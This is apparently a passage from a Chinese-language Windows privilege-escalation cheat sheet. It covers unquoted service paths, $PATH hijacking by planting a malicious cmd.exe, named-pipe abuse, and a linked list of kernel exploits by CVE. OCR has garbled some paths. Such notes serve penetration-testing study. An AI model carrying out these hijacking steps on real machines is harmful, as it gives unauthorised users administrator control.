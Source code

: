 ### 示例

对于`C:\Program Files\something\legit.exe`，Windows将首先尝试以下路径：

- `C:\Program.exe`
- `C:\Program Files.exe`

## EoP - $PATH拦截

要求：

- PATH包含一个低权限的可写文件夹。
- 该可写文件夹位于包含合法二进制文件的文件夹_之前_。

示例：

```powershell
# 列出PATH环境变量的内容
# 示例输出：C:\Program Files
odejs\;C:\WINDOWS\system32
$env:Path

# 查看目标文件夹的权限
# 示例输出：BUILTIN\Users: GR,GW
icacls.exe "C:\Program Files
odejs\"

# 将我们的恶意文件放置在该文件夹中。
copy evil-file.exe "C:\Program Files
odejs\cmd.exe"
```

因为（在这个例子中）"C:\Program Files
odejs\"在PATH变量中的位置_在_"C:\WINDOWS\system32\"之前，下次用户运行"cmd.exe"时，nodejs文件夹中的恶意版本将会运行，而不是系统32文件夹中的合法版本。

## EoP - 命名管道

1. 查找命名管道：`[System.IO.Directory]::GetFiles("\\.\pipe\")`
2. 检查命名管道DACL：`pipesec.exe <named_pipe>`
3. 软件逆向工程
4. 通过命名管道发送数据：`program.exe >\\.\pipe\StdOutPipe 2>\\.\pipe\StdErrPipe`

## EoP - 内核利用

内核漏洞列表：[https://github.com/SecWiki/windows-kernel-exploits](https://github.com/SecWiki/windows-kernel-exploits)

##### #安全公告&nbsp;&nbsp;&nbsp;#KB &nbsp;&nbsp;&nbsp;&nbsp;#描述&nbsp;&nbsp;&nbsp;&nbsp;#操作系统  

- [MS17-017](https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS17-017) 　[KB4013081]　　[GDI调色板对象本地权限提升]　　(windows 7/8)
- [CVE-2017-8464](https://github.com/SecWiki/windows-kernel-exploits/tree/master/CVE-2017-8464) 　[LNK远程代码执行漏洞]　　(windows 10/8.1/7/2016/2010/2008)
- [CVE-2017-0213](https://github.com/SecWiki/windows-kernel-exploits/tree/master/CVE-2017-0213) 　[Windows COM提升权限漏洞]　　(windows 10/8.1/7/2016/2010/2008)
- [CVE-2018-0833](https://github.com/SecWiki/windows-kernel-exploits/tree/master/CVE-2018-0833)   [SMBv3空指针解引用拒绝服务]    (Windows 8.1/Server 2012 R2)
- [CVE-2018-8120](https://github.com/SecWiki/windows-kernel-exploits/tree/master/CVE-2018-8120)   [Win32k提升权限漏洞]    (Windows 7 SP1/2008 SP2,2008 R2 SP1)
- [MS17-010](https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS17-010) 　[KB4013389]　　[Windows内核模式驱动程序]　　(windows 7/2008/2003/XP)
- [MS16-135](https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS16-135) 　[KB3199135]　　[Windows内核模式驱动程序]　　(2016)